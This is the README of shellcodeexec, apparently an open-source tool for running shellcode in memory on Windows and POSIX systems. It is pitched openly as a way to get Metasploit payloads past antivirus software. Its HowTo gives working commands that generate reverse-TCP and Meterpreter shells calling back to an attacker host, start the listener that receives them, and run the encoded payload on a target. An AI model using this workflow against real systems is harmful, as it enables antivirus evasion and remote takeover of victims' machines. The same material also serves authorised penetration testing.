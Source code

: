 # Short description

shellcodeexec is a small script to execute in memory a sequence of opcodes.

## Background

Most of the shellcode launchers out there, including proof of concepts part of many "security" books, detail how to allocate a memory page as readable/writable/executable on POSIX systems, copy over your shellcode and execute it. This works just fine. However, it is limited to POSIX, does not necessarily consider 64-bit architecture and Windows systems.

## Description

This script and the relevant project files (Makefile and Visual Studio files) allow you to compile the tool once then run your shellcode across different architectures and operating systems.

Moreover, it solves a common real world issue: the target system's anti virus software blocking a Metasploit-generated payload stager (either EXE of ELF). Take for instance the following command line:

    $ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=process LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/shikata_ga_nai -o /tmp/payload.exe -t exe

This generates a Metasploit payload stager, payload.exe, that as soon as it lands on the AV-protected target system is recognized as malicious and potentially blocked (depending on the on-access scan settings) by many anti virus products. At the time of writing this text, 21 out 41 anti viruses detect it as malicious - http://goo.gl/HTw7o. By encoding it multiple times with msfencode, less AV softwares detect it, still a lot.

I have been surfing the Net and found some interesting tutorials and guides about packing, compressing, obfuscating and applying IDA-foo to portable executables et similar in order to narrow down the number of AV products that can detect it as a malicious file. This is all interesting, but does not stop few hard-to-die anti viruses to detect your backdoor.

So the question is, how cool would it be to have a final solution to avoid all this hassle? This is exactly where this tool comes into play!

## Features

shellcodeexec:

* Can be compiled and works on POSIX (Linux/Unices) and Windows systems.
* Can be compiled and works on 32-bit and 64-bit architectures.
* As far as I know, no AV detect it as malicious.
* Works in DEP/NX-enabled environments: it allocates the memory page where it stores the shellcode as +rwx - Readable Writable and eXecutable.
* It supports alphanumeric encoded payloads: you can pipe your binary-encoded shellcode (generated for instance with Metasploit's msfpayload) to Metasploit's msfencode to encode it with the alpha_mixed encoder. Set the BufferRegister variable to EAX registry where the address in memory of the shellcode will be stored, to avoid get_pc() binary stub to be prepended to the shellcode.
* Spawns a new thread where the shellcode is executed in a structure exception handler (SEH) so that if you wrap shellcodeexec into your own executable, it avoids the whole process to crash in case of unexpected behaviours.

## HowTo

1. Generate a Metasploit shellcode and encode it with the alphanumeric encoder. For example for a Linux target:
 $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX

Or for a Windows target:
    $ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX

2. Execute the Metasploit multi/handler listener on your machine. For example for a Linux target:
```
$ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```

Or for a Windows target:
    $ msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
3. Execute the alphanumeric-encoded shellcode with this tool. For example on the Linux target:
    $ ./shellcodeexec <msfencode's alphanumeric-encoded payload>
Or, on the Windows target:
    C:\WINDOWS\Temp>shellcodeexec.exe <msfencode's alphanumeric-encoded payload>

## License

This source code is free software; you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation; either version 2.1 of the License, or (at your option) any later version.

This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License along with this library; if not, write to the Free Software Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston, MA  02110-1301  USA
